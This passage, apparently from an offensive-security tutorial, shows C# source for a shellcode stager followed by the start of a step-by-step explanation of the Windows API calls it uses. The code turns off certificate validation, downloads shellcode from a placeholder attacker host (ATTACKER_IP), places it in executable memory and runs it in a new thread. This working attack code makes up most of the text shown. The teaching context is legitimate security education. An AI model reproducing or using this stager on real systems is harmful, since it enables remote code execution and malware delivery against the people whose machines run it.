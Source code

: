 ```
  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

The code may look intimidating at first but is relatively straightforward. Let's analyze what it does step by step.

The first part of the code will import some Windows API functions via P/Invoke. The functions we need are the following three from `kernel32.dll`:

|WinAPI Function|Description|
|---------------|-----------|
|[VirtualAlloc()](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)|Allows us to reserve some memory to be used by our shellcode.|
|[CreateThread()](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)|Creates a thread as part of the current process.|
|[WaitForSingleObject()](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)|Used for thread synchronization. It allows us to wait for a thread to finish before continuing.|

The part of the code in charge of importing these functions is the following:
